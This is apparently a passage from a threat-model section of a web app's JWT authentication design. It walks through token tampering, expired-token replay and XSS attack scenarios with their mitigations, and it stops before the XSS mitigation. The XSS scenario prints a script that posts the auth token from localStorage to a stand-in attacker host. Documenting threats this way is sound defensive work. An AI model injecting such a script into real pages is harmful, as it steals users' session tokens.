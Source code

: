 3. **Cache poisoning** - User can modify cached data
   - **Mitigation**: Cache expires after 5 minutes, backend always verifies
   - **Impact**: Temporary UI confusion, no actual security breach

---

## Attack Scenarios and Mitigations

### Scenario 1: Token Tampering

**Attack**: User modifies JWT payload to change role to "admin"

```javascript
// Attacker modifies JWT payload
localStorage.setItem('authToken', tamperedToken);
```

**Protection**:
1. Frontend decodes tampered token → Shows "admin" UI temporarily
2. Backend receives request with tampered token
3. Backend verification fails: `jwt.verify()` throws error
4. Request rejected with 401 Unauthorized
5. Frontend logs user out

**Result**: ❌ Attack fails. User sees admin UI for ~100ms but can't access admin data.

---

### Scenario 2: Expired Token Replay

**Attack**: User tries to reuse an expired token

```javascript
// Token expired 1 hour ago
const oldToken = 'expired.jwt.token';
apiClient.get('/api/v1/admin/users', { Authorization: `Bearer ${oldToken}` });
```

**Protection**:
1. Frontend checks expiry client-side → Logs user out immediately
2. If bypassed, backend checks expiry → Rejects with 401
3. User forced to re-authenticate

**Result**: ❌ Attack fails. Expired tokens can't access any data.

---

### Scenario 3: XSS Attack Stealing Token

**Attack**: XSS payload steals JWT from localStorage

```html
<script>
  // Malicious script injected via XSS
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: localStorage.getItem('authToken')
  });
</script>
```
